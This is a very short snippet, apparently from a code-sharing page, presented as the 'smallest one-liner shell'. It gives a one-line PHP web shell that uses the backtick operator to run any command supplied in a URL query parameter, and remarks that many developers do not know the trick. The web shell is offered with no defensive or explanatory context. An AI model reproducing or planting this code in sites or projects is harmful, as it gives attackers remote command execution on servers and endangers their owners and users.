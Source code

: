 # smallest one-liner shell:
## `` is backtick character anything b/w this execute directly. many devs unaware about it.
``<?=`$_GET[C]`?>``
